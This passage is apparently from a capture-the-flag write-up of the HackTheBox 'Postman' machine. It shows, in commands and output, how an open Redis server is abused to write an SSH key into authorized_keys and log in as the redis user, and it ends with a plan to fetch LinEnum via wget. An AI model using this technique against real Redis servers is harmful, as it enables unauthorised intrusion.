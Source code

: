 Using `redis-cli`, we connect to the `redis` server and print the current working directory as well as the location of where the database will be saved to.

{% highlight bash %}
redis-cli -h postman.htb
postman.htb:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
postman.htb:6379> config get dbfilename
1) "dbfilename"
2) "authorized_keys"
{% endhighlight %}

Alright, we are in the correct directory already and the the database will be written to `authorized_keys` when we save. Next we need to clear the database, write our key into it and then save it.

{% highlight bash %}
$ redis-cli -h postman.htb flushall
OK
$ cat foo.txt | redis-cli -h postman.htb -x set crackit
OK
$ redis-cli -h postman.htb save
OK
{% endhighlight %}

Now if try to `ssh` as the `redis` user using the `ssh` key we made,

{% highlight bash %}
ssh -i ~/.ssh/id_rsa redis@postman.htb
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Dec 31 09:16:39 2019 from 10.10.XX.XX
redis@Postman:~$
{% endhighlight %}

Success! Too bad `redis` wasn't the user that has the flag :P If we list `/home`, we see another user called `Matt`.

{% highlight bash %}
redis@Postman:~$ ls /home
Matt
{% endhighlight %}

Lets see if running ['LinEnum'](https://github.com/rebootuser/LinEnum) will give us any insights on how to get access to `Matt`. I will be starting a web server on my machine using the builtin `SimpleHTTPServer` module in `python` and use `wget` to retrieve it.
